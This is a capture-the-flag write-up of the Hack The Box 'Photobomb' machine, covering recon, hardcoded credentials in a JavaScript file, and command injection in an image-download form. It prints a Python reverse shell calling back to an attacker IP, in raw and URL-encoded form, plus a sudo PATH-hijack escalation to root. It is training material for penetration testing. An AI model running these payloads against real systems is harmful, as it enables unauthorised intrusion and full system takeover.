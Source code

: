 # HackTheBox: Photobomb Writeup

## Photobomb
### Reconnaissance | Scanning

To begin with, our first priority is to conduct reconnaissance using the provided IP. Our plan is to perform an Nmap scan of the network in order to identify any open ports.

No alt text provided for this image
Nmap Scan

By analyzing the current status, we can observe that only two ports are accessible - port 22 and port 80. The latter, identified as an http port, appears to be running nginx 1.18.0 on Ubuntu. Our next course of action is to focus on port 80 and investigate any potential website content. Utilizing the given IP address of `10.129.228.60`, we can explore the contents available on this specific port.

No alt text provided for this image
IP Showing URL Name

At this point, we need to include the new URL "photobomb.htb" to the `/etc/hosts` file to access the corresponding webpage. From here we will nano into the `/etc/hosts` file.

No alt text provided for this image
etc/hosts file

With the updated IP and URL added to the `/etc/hosts` file, we can now revisit the browser and access the photobomb.htb link. This will allow us to delve deeper into the website and conduct further investigation.

No alt text provided for this image
Webpage working properly

On the page, we have a hyperlink "click here!" that leads to `photobomb.htb/printer`. Upon clicking on the link, a login popup appears. We attempted to log in with the credentials "admin:admin," but no response was generated. Cancelling the login led us to a 401 Authorization Required error, accompanied by nginx/1.18.0 (Ubuntu) message.

No alt text provided for this image
Login

No alt text provided for this image
401 Authorization Required Link: photobomb.htb/printer

Our next step is to examine the source code of the photobomb.htb webpage. After some investigation, we discovered a photobomb.js file that we can explore further.

No alt text provided for this image
photobomb.js file that show credentials

After conducting a thorough examination of the photobomb.js file, we have uncovered the existence of credentials embedded within the Javascript code. Our next step is to attempt to log in using the credentials pH0t0:b0Mb!.

No alt text provided for this image
Login page for phtobomb.htb/printer

No alt text provided for this image
Bottom of page with Download Photo button

Our next course of action is to set up BurpSuite in order to intercept the connections originating from the "Download Photo to Print" button. This will allow us to view any information or prompts that may appear prior to the page progressing further.

No alt text provided for this image
Intercepting with BurpSuite

### Gaining Access
At this point, we can begin testing for any potential vulnerabilities with the "Download Photo to Print" button. Our initial approach will be to test for a delay or timing attack by attempting to cause a five-second delay and observing the response.

After conducting further testing and experimenting with the sleep function, it has been confirmed that the page can be made to sleep for five seconds. This may indicate the presence of a potential vulnerability that could be further exploited.

To obtain a reverse shell, we utilized the Online Reverse Shell Generator (revshells.com) and selected the Python3 #1 option.

```
export RHOST="10.10.14.78";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

Our next step will involve URL encoding the reverse shell and embedding it into the `&filetype=jpg&` field in BurpSuite. Additionally, we must establish a Netcat listener. The method I used to URL encode the reverse shell is by utilizing the built-in function in BurpSuite.

```
%3bexport%20RHOST%3D%2210.10.14.78%22%3Bexport%20RPORT%3D5555%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```

No alt text provided for this image
URL Encoded Reverse Shell

Upon advancing the page in BurpSuite, we successfully captured traffic using the Netcat listener. This indicates that the reverse shell was successfully executed and that we have gained access to the target system.

No alt text provided for this image
Netcat Listener | User Wizard

Now that we have gained access to the target system, we can proceed to investigate the user "Wizard" and explore the contents of their account.

No alt text provided for this image
Traversing Directories found User Flag

### Maintaining Access
After traversing through the system directories, I successfully obtained the user flag from the "user.txt" file. Our next step will be to obtain root privileges through privilege escalation.

No alt text provided for this image
Sudo -l

Using the command `sudo -l`, we were able to determine the type of root privileges granted to the user. It appears that the user has root privileges to execute the command `/opt/clean.sh`. To proceed, we will investigate the `/opt/clean.sh` file by running the `cat /opt/clean.sh` command. This will display the contents of the file in the terminal.

No alt text provided for this image
cat /opt/cleanup.sh

In the next step, we need to switch to the bash shell and then set the executable permission for the `find` file to gain complete access. We can accomplish this by running `chmod +x find`. The command `echo bash > find` will create a file named `find` in the current directory and write the string `bash` to it. If the file already exists, it will be overwritten.

No alt text provided for this image
echo bash > find | chmod +x find

The next command is `sudo PATH=$PWD:$PATH /opt/cleanup.sh`. This will add the current working directory to the beginning of the $PATH environment variable, giving priority to any executables in the current directory over those in other directories. Then, it runs the `/opt/clean.sh` script with sudo, which will execute with root privileges because of the sudo command.

No alt text provided for this image
Root Access

Once you have root access, you can investigate the system further for any important information, such as configuration files, logs, and running processes. This will help you understand how the system works and identify any potential vulnerabilities or misconfigurations that can be exploited. You can also check for any user accounts, credentials, or sensitive data that may be stored on the system. It's important to document your findings and take steps to secure the system to prevent future attacks.

No alt text provided for this image
Root Flag
